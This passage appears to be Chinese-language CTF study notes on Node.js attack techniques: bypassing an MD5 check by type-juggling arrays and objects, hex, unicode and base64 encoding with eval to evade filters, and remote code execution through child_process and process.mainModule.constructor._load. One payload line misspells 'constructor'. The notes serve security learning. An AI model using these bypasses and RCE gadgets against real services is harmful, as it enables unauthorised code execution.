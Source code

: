 #### 1.1.3 MD5的绕过

```js
a && b && a.length===b.length && a!==b && md5(a+flag)===md5(b+flag)
```

a[x]=1&b[x]=2

数组会被解析成`[object Object]`

```js
a={'x':'1'}
b={'x':'2'}

console.log(a+"flag{xxx}")
console.log(b+"flag{xxx}")

a=[1]
b=[2]

console.log(a+"flag{xxx}")
console.log(b+"flag{xxx}")
```

#### 1.1.4 编码绕过

**16进制编码**

```js
console.log("a"==="\x61"); // true
```

**unicode编码**

```js
console.log("\u0061"==="a"); // true
```

**base编码**

```js
eval(Buffer.from('Y29uc29sZS5sb2coImhhaGFoYWhhIik7','base64').toString())
```

## 1.2 危险函数

### 1.2.1 RCE 

Function环境下没有require函数，不能获得child_process模块，我们可以通过使用process.mainModule.constructor._load来代替require。

eval(js代码)

```js
1.require('child_process').exec('open /System/Applications/Calculator.app');
2.require('child_process').execSync('open /System/Applications/Calculator.app');
3.global.process.mainModule.constuctor._load('child_process').exec('calc');
```

### 1.2.2 文件读写
